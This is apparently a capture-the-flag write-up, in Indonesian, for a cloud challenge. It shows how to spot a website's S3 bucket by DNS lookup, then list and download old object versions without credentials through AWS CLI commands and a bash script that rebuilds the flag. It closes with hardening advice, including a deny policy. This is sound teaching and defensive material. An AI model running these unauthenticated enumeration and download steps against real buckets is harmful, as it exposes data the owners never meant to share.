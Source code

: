 # Last Forever
## Description
431 points - Misc

Author: Lychnobyte

I have erased all my memories of you. But, why are you still in the deepest part of my heart? :')

<a href="http://forever.lychnobyte.my.id">http://forever.lychnobyte.my.id</a>

<strong>Hint: cloud challenge</strong>

## Solution

1. Pada soal ini kita diberikan akses ke sebuah web yang tidak ada fungsi input apapun.

    ![](img/step-1.png)

2. Oleh karena itu kita coba eksplore file - file yang umum ada di web publik, salah satunya yaitu `robots.txt`

    ![](img/step-2.png)

3. Dari info `robots.txt` kita mendapat info nama file lainnya yaitu `memories.txt` dan bila lihat isinya maka akan menampilkan pesan ini.

    ![](img/step-3.png)

4. Info yang tidak secara eksplisit menginfokan lokasi atau nama filenya tapi kalau dilihat seksama ada kata yang merujuk ke nama file yaitu `myheart` dan kita coba buka dengan tambahan ekstensi `txt`

    ![](img/step-4a.png)

5. Tidak ada info berarti dari `myheart.txt`. Kita lanjut ke clue/hint soal ini yaitu `cloud challenge`. Dan bila kita perhatikan dari beberapa file sebelumnya itu ada total 3 file dan salah satu kerentanan terkait `cloud` yang berhubungan dengan `exposed object data file` adalah `AWS S3 Bucket`.

6. Dengan berbekal dugaan itu, kita bisa baca pada link <a href="https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-unauthenticated-enum-access/aws-s3-unauthenticated-enum#by-dns">ini.</a> Terdapat info bahwa salah satu cara enumerasi apakah web target menggunakan S3 Bucket adalah dengan me-<i>lookup</i> DNS nya. Kita bisa pakai command `nslookup` untuk hal ini.

    ![](img/step-4.png)

7. Dari info nslookup tadi, kita bisa dapati info bahwa `forever.lychnobyte.my.id` adalah <strong>nama S3 Bucket nya</strong> dan <strong>us-east-2</strong> adalah region data tersimpan di AWS.

8. Berbekal info itu kita bisa gunakan `AWS CLI` untuk akses resource AWS lewat command line. Untuk instalasinya ada di link <a href="https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html">ini.</a>

9. Lalu untuk hal pertama yang dilakukan setelah instalasi adalah mengkonfigurasi AWS CLI terkait region nya agar sesuai dengan region target yaitu `us-east-2`. Kemudian kita dapat me-List setiap file yang tersedia di S3 berdasarkan `Versioning nya`. Hal ini dikarenakan, di S3 Bucket ada fitur versioning yang berperan merekam setiap perubahan yang terjadi pada object file. Jadi agar kita bisa tau file itu ada berapa versi kita bisa lihat semua versioning nya saja.

    ![](img/step-5.png)

    <strong>Command: </strong>
    ```bash
    aws s3api list-object-versions --bucket forever.lychnobyte.my.id --query "Versions[?VersionId!='null']" --no-sign-request
    ```

10. Kemudian, jika kita baca hasil list nya. Kita bisa dapati ada banyak versi di file `myheart.txt`.

    ![](img/step-6.png)

11. Untuk memastikan data apa yang berubah dari `myheart.txt`, kita coba ambil (get/download) file `myheart.txt` versi terlama (list ditampilkan dengan sorting berdasar object yang paling terbaru, jadi untuk yang terlama ada di urutan terakhir).

    ![](img/step-7.png)

    <strong>Command: </strong>
    ```bash
    aws s3api get-object --bucket forever.lychnobyte.my.id --key "myheart.txt" --version-id "x5u6Yux3PHJBMoCMq2gbRJAhgGbrKdPr" myheart-2.txt --no-sign-request
    ```

12. Isi dari file `myheart.txt` versi terlama hanya berisi satu huruf yaitu "T". Tapi kalau kita cermati, format flag soal di awali dengan huruf "T". Jadi ada kemungkinan kalau setiap versi `myheart.txt` menyimpan satu karakter dari flag.

    ![](img/step-8.png)

13. Kita lanjut saja untuk mengambil list data S3 Bucket hanya khusus di file `myheart.txt` saja dan menyimpannya ke `output.txt`.

    ![](img/step-9.png)

    <strong>Command: </strong>
    ```bash
    aws s3api list-object-versions --bucket forever.lychnobyte.my.id --query "Versions[?Key=='myheart.txt']" --no-sign-request > output.txt
    ```

14. Selanjutnya, kita bisa gunakan script `get_flag.sh` untuk mendapatkan setiap karakter flag dari setiap versi `myheart.txt` kecuali versi terbarunya karena versi terbaru itu berisi konten yang kita lihat di awal tadi (tidak berkaitan dengan flag).

    ```bash
    #!/bin/bash
  
    num=15 #skipping the latest s3 versioning or very top in output.txt
    id=""
    flag=""
    
    # Read the contents of output.txt into an array
    readarray -t data < ../output/output.txt
  
    # Loop through the array elements
    for ((i=0; i<${#data[@]}; i++)); do
        # Calculate the index to access
        index=$((num))
        
        # Check if the index is within the bounds of the array
        if (( index < ${#data[@]} )); then
        
              # Get Version Id object
              id=$(echo ${data[$index]} | awk '{print $2}' | tr -d ",")
              echo $id
         
              # Download object with Version Id
              aws s3api get-object --bucket forever.lychnobyte.my.id --key "myheart.txt" --version-id $id myheart.txt --no-sign-request
        
              # Insert flag value on object file into variable Flag
              flag+=$(cat myheart.txt)
         
              # Remove the file
              rm myheart.txt
        fi
        
        # Increment num by 9 according to range between index of VersionId
        num=$((index + 9))
    
    done
    
    echo $flag
    ```

15. Kita jalankan saja file nya dan kita akan dapat flag nya tapi dalam kondisi terbalik (ini karena karakter pertama ada di file versi terlama sementara looping dilakukan dengan mengambil data dari file versi terbaru dulu)

    ![](img/step-10.png)

16. Untuk me-reverse flag, kita bisa pakai perintah `echo '<flag>' | rev` atau bisa juga pakai CyberChef seperti ini.

    ![](img/step-11.png)

## Hardening Step

Untuk mencegah kerentanan S3 Bucket seperti pada soal ini, kalian bisa memperhatikan beberapa hal ini:
1. Buat permission pada S3 Bucket dengan berlandaskan prinsip least-privilege untuk membatasi siapa saja yang bisa akses. Ini bisa diterapkan dengan cara membuat Resource-based Policy dan Access Control List salah duanya. Berikut ini contoh Policy yang melarang akses langsung (direct) ke object versioning pada versi lama file.

    ```json
    {
      "Version": "2012-10-17",
      "Statement": [
          {
              "Sid": "DenyOlderVersions",
              "Effect": "Deny",
              "Principal": "*",
              "Action": "s3:GetObjectVersion",
              "Resource": "arn:aws:s3:::forever.lychnobyte.my.id/*"
          },
          {
              "Sid": "AllowCurrentVersion",
              "Effect": "Allow",
              "Principal": "*",
              "Action": "s3:GetObject",
              "Resource": "arn:aws:s3:::forever.lychnobyte.my.id/*"
          }
      ]
    }
    ```

2. Dapat gunakan AWS Config untuk menilai seberapa aman keamanan pada resource AWS, salah satunya adalah S3.

3. Blokir akses publik untuk S3 Bucket bila tidak ada keperluan untuk itu (semisal bucket yang memang difungsikan menyimpan data internal perusahaan). Untuk bucket yang digunakan untuk static website, pastikan hanya file yang diperlukan saja yang diizinkan akses publik dan pertimbangkan untuk menggunakan Amazon CloudFront untuk mengamankan dan mendistribusikan konten website.

## Reference

* [Get object S3] https://docs.aws.amazon.com/cli/latest/reference/s3api/get-object.html#examples
* [Enum S3] https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-unauthenticated-enum-access/aws-s3-unauthenticated-enum
* [S3 Versioning Data Leaks] https://osintteam.blog/aws-s3-bucket-versioning-discloses-secrets-1d63fbe498ab
* [S3 Bucket Security] https://docs.aws.amazon.com/AmazonS3/latest/userguide/WebsiteAccessPermissionsReqd.html

